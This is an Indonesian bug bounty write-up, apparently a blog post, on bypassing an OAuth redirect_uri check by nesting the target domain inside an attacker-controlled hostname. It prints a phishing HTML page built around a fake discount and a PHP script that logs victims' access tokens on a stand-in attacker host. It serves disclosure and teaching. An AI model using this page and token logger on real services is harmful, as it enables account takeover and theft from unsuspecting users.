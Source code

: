 ```yaml
---
layout: post
title: Bypass Open Redirect + Takeover Account (OAuth)
categories: [Web Security, Bug bounty write-up]
author: Rafshanzani Suhada
---
```


Mungkin kalian sudah tidak asing lagi dengan metode `Takeover Account (OAuth)` yang memanfaatkan param `redirect_uri`. Diartikel ini akan menjelaskan Bypass Open Redirect yang mengakibatkan akun diambil alih. Untuk penjelasan apa itu Open Redirect dan Akun takeover kalian dapat membacanya diartikel berikut: 

* <https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html>
* <https://www.imperva.com/learn/application-security/account-takeover-ato/>

Pada umumnya bug ini hanya menambahkan / merubah param menjadi `redirect_uri=https://attacker.com`, namun pada kasus ini saya mendapatkan error pada saat menambahkan param tersebut. Lalu saya muncul ide untuk merubahnya menjadi `redirect_uri=https://target.com.attacker.com/`, cukup kaget dan ini ternyata berhasil.

![Terkejut](https://infosec.zerobyte.id/images/shock.gif)

Jika kurang jelas saya akan menjelaskan lebih detail.

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://attacker.com/
```

Pada saat melakukan request tersebut terdapat **error**, Lalu saya merubah param `redirect_uri` menjadi `https://target.id.attacker.com/` dan ternyata berhasil mengalihkan url, jadi request berubah seperti berikut:

**Request** :
```
https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/
```

---

# Skenario

### Server (target.id.attacker.com)

Membuat file yang seolah olah target.id memiliki diskon untuk membeli produk

File: POC.html

```html
<!DOCTYPE html>
<html>
<body>

<h1>Discount 80% Plan Business</h1>

<p><a href="https://auth.target.id/login?oidc_sp=google&redirect_uri=https://target.id.attacker.com/">CLAIM NOW!</a></p>

</body>
</html>
```

File: index.php

```php
<?php
function redirect($url)
{
   header('Location: ' . $url);
   die();
}

$token = "$_SERVER[REQUEST_URI]";

$filetoken = fopen("token_param.txt", "a+") or die("Unable to open file!");
fwrite($filetoken, $token .PHP_EOL);
fclose($myfile);

redirect('https://target.id' . $token);
```

### Steps to Reproduce

* Attacker Mengirim url <https://target.id.attacker.com/POC.html> ke victim
* Ketika diklik "CLAIM NOW" oleh victim maka akan dialihkan ke target.id

Setelah proses tersebut selesai attacker melihat isi file `token_param.txt` yang dimana file tersebut tersimpan `ACCESS TOKEN` dan dapat digunakan untuk login victim.

### Bagaimana cara ambil alih akun dengan token tersebut?

Attacker dapat melakukan login hanya menggunakan `ACCESS TOKEN` tersebut. 

```
https://target.id/{TOKEN_PARAM}
```

---

Pada platform bugbounty di Bugcrowd termasuk P2 (Priority 2) atau High.

![Bugcrowd](https://infosec.zerobyte.id/images/OAuth_Bugcrowd_P2.png)

Dalam kasus ini saya melakukan report diplatform Bugcrowd & mendapatkan reward sebesar $400

![Hore](https://infosec.zerobyte.id/images/Prof-reward_1.png)

Mohon maaf jika yang saya jelaskan kurang jelas, karena saya memang tidak begitu pandai membuat tulisan.

"Tetaplah rendah hati dan selalu memiliki keinginkan untuk menjadi sesuatu yang diinginkan."
